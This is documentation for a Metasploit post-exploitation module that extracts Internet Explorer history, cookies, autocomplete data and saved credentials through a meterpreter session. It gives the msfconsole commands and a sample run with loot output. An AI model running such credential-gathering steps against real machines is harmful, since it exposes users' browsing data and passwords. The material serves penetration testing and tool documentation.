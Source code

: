 ## Vulnerable Application

  This post-exploitation module will extract saved user data from Internet Explorer. For IE versions of 7 and newer the module will try to extract and decrypt saved credentials as well.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_ie`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted IE browser data in the loot files

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - History
  - Cookies
  - Autocomplete data
  - Credentials **(only for >= IE7)**
    - HTTP auth credentials
    - Saved form credentials

## Example Scenario

  **Using an existing meterpreter session**

  ```
  msf exploit(handler) > use post/windows/gather/enum_ie
  msf post(enum_ie) > set SESSION 1
  SESSION => 1
  msf post(enum_ie) > run

  [*] IE Version: 6.0.2900.5512
  [-] This module will only extract credentials for >= IE7
  [*] Retrieving history.....
          File: C:\Documents and Settings\user\Local Settings\History\History.IE5\index.dat
  [*] Retrieving cookies.....
          File: C:\Documents and Settings\user\Cookies\index.dat
  [*] Looping through history to find autocomplete data....
  [-] No autocomplete entries found in registry
  [*] Looking in the Credential Store for HTTP Authentication Creds...
  [*] Writing history to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031155122_default_10.0.2.15_ie.history_747359.txt
  [*] Writing cookies to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031155122_default_10.0.2.15_ie.cookies_795069.txt
  [*] Post module execution completed
  ```

  The extracted history data would then for example look like this:

  ```
  History data
  ============

   Date Modified              Date Accessed              Url
   -------------              -------------              ---
   2011-11-20T23:59:02+00:00  2011-11-20T23:59:02+00:00  about:Home
   2016-10-31T14:42:05+00:00  2016-10-31T14:42:05+00:00  http://go.microsoft.com/fwlink/?LinkId=54729&clcid=0x0407
   2016-10-31T14:42:06+00:00  2016-10-31T14:42:06+00:00  http://de.msn.com/?ocid=iefvrt
   2016-10-31T14:42:08+00:00  2016-10-31T14:42:08+00:00  http://www.microsoft.com/isapi/redir.dll?prd=ie&pver=6&ar=msnhome
   2016-10-31T14:42:23+00:00  2016-10-31T14:42:23+00:00  http://www.msn.com/de-de?ocid=iefvrt
   2016-10-31T14:47:42+00:00  2016-10-31T14:47:42+00:00  file:///E:/text.txt
  ```
